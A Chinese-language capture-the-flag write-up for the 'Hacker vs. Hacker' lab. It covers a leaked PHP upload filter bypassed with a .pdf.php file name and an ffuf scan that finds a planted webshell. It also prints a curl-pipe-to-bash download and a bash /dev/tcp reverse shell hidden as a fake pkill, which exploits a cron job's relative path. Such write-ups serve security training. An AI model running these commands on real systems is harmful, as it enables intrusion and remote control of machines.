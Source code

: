 # Hacker vs. Hacker

![image-20250607154049096](./assets/image-20250607154049096.png)

![image-20250607154243077](./assets/image-20250607154243077.png)

只开放了80和22端口

进行目录扫描

![image-20250607154853017](./assets/image-20250607154853017.png)

我们上传文件的时候发现泄露了源代码

![image-20250607155840381](./assets/image-20250607155840381.png)

```
Hacked! If you dont want me to upload my shell, do better at filtering!

<!-- seriously, dumb stuff:

$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}

-->
```

**`strpos`**: 这是一个 PHP 函数，用于查找一个字符串在另一个字符串中首次出现的位置。如果找到，函数返回该位置的索引；如果未找到，则返回 `false`。

那我们构造hack.pdf.php就可以进行绕过

![image-20250607161036188](./assets/image-20250607161036188.png)

但是事与愿违，我们猜测黑客修复了这个漏洞

可能他上传了*.pdf.php文件

我们用fuff进行模糊测试



```
ffuf -u http://10.10.37.196/cvs/FUZZ.pdf.php -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

![image-20250607161841209](./assets/image-20250607161841209.png)

扫出一个shell

![image-20250607161915685](./assets/image-20250607161915685.png)

![image-20250607162000684](./assets/image-20250607162000684.png)

成功猜出参数



我们使用一句话shell

curl http://10.8.137.162/shell.sh | bash

![image-20250607162753003](./assets/image-20250607162753003.png)

我们ssh登录后，几秒后就会掉

![image-20250607163122925](./assets/image-20250607163122925.png)

是因为crontab的原因

这个命令会列出 `/dev/pts` 目录下的所有伪终端（pseudo terminal），并对每个伪终端执行以下操作：

我们发现pkill使用的相对路径，我们可以去将恶意文件放到/home/lachlan/bin，因为会从这里先进行检索。

```
echo "bash -c 'bash -i >& /dev/tcp/10.8.137.162/4444 0>&1'" > bin/pkill ; chmod  +x bin/pkill
```

![image-20250607165202783](./assets/image-20250607165202783.png)

